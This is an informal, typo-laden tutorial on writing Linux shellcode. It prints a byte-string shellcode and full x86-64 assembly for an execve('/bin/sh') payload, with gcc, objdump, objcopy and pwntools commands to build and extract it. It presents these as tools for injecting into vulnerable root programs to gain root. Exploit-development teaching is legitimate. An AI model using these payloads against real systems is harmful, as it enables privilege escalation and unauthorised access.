 # THE ART OF SHELLCODE

# what is a shellcode?
 to make simple, a shellcode is a set of instructions, a string of byte which represente a code that we want program
run for you. as you know, the CPU only understant and execute 0's and 1', a shellcode represente those 0's 1's which you want the program exec for you as hacker.

In many case, the purpouse of a shellcode is to pop up a shell. if you obtain a shell(root shell), you can do anything you want. but a shellcode can also be used to read a file , open network connection, make a backdor...
example: this string is a shellcode: "ijhh\x2f\x2f\x2fsh\x2fbin\x89\xe3h\x01\x01\x01\x01\x814\x24ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"



# When could i use a shellcode.
Hacker use shellcode to  exploit weakness in software and make that software execute instructions they control
if you can trigger a program to execute your shellcode, you can make this software execute any command for you.
imagine an instance where you get acces to a remote machine,you dont have permision to read sensitive file as you don't have permision. if you found a vulnerable program(program which is vuln to shelcode injection) which run root permission, you can exploit this to get root access. 


# how to write a shellcdoe:::
there is many way to write a shellcode. It is an art and you master it as long as you make pratice.
the purpose of this cours is to help reader become shellcoders.
it take time to become skilled in this field. it need many pratice. undertand assambled language is mandatory 

i will show you free way to write shellcode.

1 - #   write your program i C langage, compile it and  get the shellcode



2-  #    write your  shellcode in assembled langage, compile it

3 - #    use automate tool to write your shellcode. 

# let explain each of these method

# FROM C program to shellcode.
 I dont recommanded this methodology . because it make you very limited and in some case, you can not use it

how to do that.
    i suppose you know C programming Langage.
    - write your code in C program. 
    - compile your code
    - from the binary code, extract your shellcode

Example:
  /bin/sh shellcode
```
in main(){
execve("/bin/sh", NULL, NULL)
return 0;
}
```
compile the program: 
`` gcc -nostartfiles -o bin_sh bin_sh.c``

you can decompile the program with objdump to  get the assembled code of main function

``objdump -d -M intel bin_sh``

![C_program_2_shellcode](../images/bin_sh_c.png)
![C_program_2_shellcode](../images/objdump_result1.png)


# 
# time to  get the shellcode of this elf file:
to do that, i will use objcopy. a tool  to inspect, modify ELF file

cmd: ``objcopy --dump-section .text=raw_shellcode.txt bin_sh``

this will produce raw_shellcode.txt file containing your shellcode in raw format

![C_program_2_shellcode](../images/raw_shellcode.png)

in the next article, i will show you how to test your shellcode



# Method 2:
write your shellcode by hand.
that make difference betwen real pwners and followers
in order to do that, you need a good knowledgment of assembler langague.
if want to write shellcode for x86/amd, you must know those assembleur langage.

## Step:
1 - write your shellcode in assembler
2 -compile it to elf file
3 - test if the result elf file work as expect(do the job)
4 - extraction your shellcode from the elf file
5 - test your shellcode.
6 - exploit the program by injecting your shellcode.


# let do an example:
1 - # write a shellcode in assembler langage
 ```
    .global _start

_start:
    .intel_syntax noprefix
    #execve("/bin/sh". 0,0) shellcode
    mov rax, 0x3b  # execve syscall number
    mov rcx, 0x68732f6e69622f # "/bin/sh" string
    push rcx
    mov rdi, rsp # rsp is a pointer to /bin/sh so rdi will also be a pointer after
    xor rsi, rsi # arg1=0
    mov rdx, rsi # rg2=0
    syscall
    # exit(0) syscall
    mov rax, 0x3c
    xor rdi, rdi
    syscall

```

#NB : don't worry if you don't know how this code your, in the  following articles, we will learn all of them

2 - # compile your shellcode:
cmd: ``gcc -nostdlib --static -o shell_elf shellcode.s``
 -nostdlib : do not include standard libraries

-static: the binary will be compiled as static, it will contain all the necessaries to run without load shared object

-o : the output file

After that, you obtain  the shell_elf file and you can test it to see if it work. 

![C_program_2_shellcode](../images/asm_shell.png)


3 -# test the elf file
##### it work

4 - Extract shellcode from the result ELF file
    
    let decompile the file to see its asm code
cmd: ``objdump -d -M intel shell_elf``
 explaination: 
        -d : to decompile executable sections
        -M : asm syntax in which you want the result

![C_program_2_shellcode](../images/objdump_result2.png)


# now i will use objcopy to dump the text section 
CMD: ``objcopy --dump-section .text=asm_shellcode.txt shell_elf``

you obtain asm_shellcode.txt which contain your shellcode in raw format.
as you can see, this shellcode is very small and contain less null byte than the previous
size: 41 bytes

in the picture bellow, i use   a tester to test if the shellcode work.
if the nest article, i will show you how to write a tester and test your shellcode

![C_program_2_shellcode](../images/asm_shellcode.png)




# ther 3rd method:
    # automate tools:
you can use this approch to gain time.
there is may tool to generate a shellcode. but leet me tell you that it is mandatory to learn how to write your own shellcode bu hand.
in some situation, those automate tools will not produce the correct result. so you need to write your shellcode by hand

to do that, you can use:
- pwn tool
msfvenom

``pwn shellcraft sh -f raw  -o my_shell.raw``


